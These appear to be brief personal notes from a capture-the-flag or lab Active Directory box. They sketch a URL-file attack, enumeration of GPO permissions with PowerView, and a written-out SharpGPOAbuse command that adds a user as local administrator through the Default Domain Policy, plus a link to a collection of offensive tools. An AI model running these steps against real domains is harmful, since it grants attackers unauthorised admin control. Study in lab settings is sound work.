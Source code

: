 ### scf is not working
### URL file attack then
https://swepstopia.com/url-file-attack/

### Foothold
PowerView.ps1 -> Get-NetGPO to get GUID -> Get-GPPermission -> GpoEditDeleteModifySecurity

The entry labeled Permission shows that we have the ability to edit, delete, and modify this policy. We can take advantage of this misconfiguration by using a tool named SharpGPOAbuse.

```
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

Hacktricks' link is so old. Use this one then
`https://github.com/Flangvik/SharpCollection`


### Others
maybe try bloodhound rather than powerview since the gui is nice there.